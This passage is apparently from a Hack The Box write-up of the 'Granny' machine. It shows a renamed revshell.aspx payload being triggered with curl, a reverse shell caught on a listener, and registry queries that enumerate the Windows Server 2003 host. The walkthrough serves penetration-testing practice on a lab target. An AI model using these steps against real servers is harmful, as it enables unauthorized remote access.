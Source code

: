 ```
Moving `/revshell.txt' to `/revshell.aspx':  succeeded.
```

Once again, it went off without a hitch!

Finally, let's trigger our payload:

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.15/revshell.aspx"
```

And if we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.15] 1030
<SNIP>
c:\windows\system32\inetsrv>
```

It caught the reverse shell!

Unfortunately, Powershell doesn't exist on this box.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as
`NT AUTHORITY\Network Service`.

### Architecture

What is Granny's architecture?

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Granny.

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName ^
    && reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Microsoft Windows Server 2003 R2


HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    3790
```
